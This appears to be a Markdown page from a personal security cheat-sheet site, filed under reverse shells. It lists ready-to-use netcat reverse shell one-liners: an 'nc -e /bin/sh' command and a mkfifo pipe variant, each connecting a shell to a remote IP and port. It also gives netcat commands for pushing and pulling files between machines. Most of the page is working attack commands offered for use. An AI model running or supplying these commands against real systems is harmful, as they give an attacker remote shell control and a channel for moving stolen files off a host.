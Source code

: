 ```yaml
---
layout: default
title: netcat 
parent: Shells / Reverse Shells
grand_parent: security stuff
nav_order: 2
---
```


1. TOC 
{:toc}

## Netcat Shells

- Assuming that the `-e` option is present in netcat, use the following:    
```
nc -e /bin/sh 192.168.1.13 1234   
```

- If `nc -e` is not available, it is still to get a reverse shell with the following:   
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/usr/local/bin/nc 192.168.1.13 1234 >/tmp/f
```

---

### Sending & Receiving files via netcat 

#### Method #1
```bash
# setup a listener hosting the file: 
cat file.php | nc -q 0 -lvp 1234 # or
nc -q 0 -lvp 1234 < file.php

# download the file from the listener:
nc $IP $PORT > file.php
```

#### Method #2
```bash
# this is the reverse of above..
# setup a listener waiting for the file:
nc -lvp 1234 > file.php

# then, send the file to the listener:
nc 192.168.1.14 1234 < file.php
```

---

